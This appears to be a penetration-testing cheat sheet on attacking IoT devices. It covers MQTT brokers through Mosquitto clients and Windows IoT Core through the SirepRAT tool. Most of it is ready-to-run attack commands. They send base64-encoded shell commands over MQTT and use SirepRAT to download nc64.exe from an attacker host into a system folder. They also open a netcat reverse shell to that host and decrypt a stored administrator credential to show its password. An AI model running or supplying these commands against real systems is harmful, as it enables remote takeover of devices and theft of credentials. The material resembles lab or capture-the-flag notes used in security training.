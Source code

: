 # IoT

- [Resources](#resources)

## Table of Contents

- [Mosquitto (MQTT)](#mosquitto-mqtt)
- [SirepRAT](#sireprat)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| MQTT-PWN | MQTT-PWN intends to be a one-stop-shop for IoT Broker penetration-testing and security assessment operations. | https://github.com/akamai-threat-research/mqtt-pwn |
| Python-based MQTT Client Shell | Python-based MQTT client command shell | https://github.com/bapowell/python-mqtt-client-shell |
| SirepRAT | Remote Command Execution as SYSTEM on Windows IoT Core (releases available for Python2.7 & Python3)  | https://github.com/SafeBreach-Labs/SirepRAT |

## Mosquitto (MQTT)

### Client Tools

```c
$ sudo apt-get install mosquitto mosquitto-clients
```

```c
$ mosquitto_sub -h <RHOST> -t U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub
$ mosquitto_pub -h <RHOST> -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m 'hello'
```

### Sending Commands

```c
{ "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls" }
```

```c
$ mosquitto_pub -h <RHOST> -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m 'eyAiaWQiOiAiY2RkMWIxYzAtMWM0MC00YjBmLThlMjItNjFiMzU3NTQ4YjdkIiwgImNtZCI6ICJDTUQiLCAiYXJnIjogImxzIiB9'
```

### Python-based MQTT Client Shell

> https://github.com/bapowell/python-mqtt-client-shell

```c
$ python mqtt_client_shell.py
> host=<RHOST>
> host <RHOST>
> connect
> subscribe
> subscribe topic 0, 1, 2, 3
> exit
```

## SirepRAT

> https://github.com/SafeBreach-Labs/SirepRAT

### Upload

```c
$ python SirepRAT.py <RHOST> LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://<LHOST>:80/nc64.exe" --v
```

### Command Execution

```c
$ python SirepRAT.py <RHOST> LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe <LHOST> <LPORT> -e powershell.exe" --v
```

```c
$ $env:UserName                                                        // get the current username
$ $credential = Import-CliXml -Path U:\Users\administrator\root.txt    // accessing a file
$ $credential.GetNetworkCredential().Password                          // show input
```
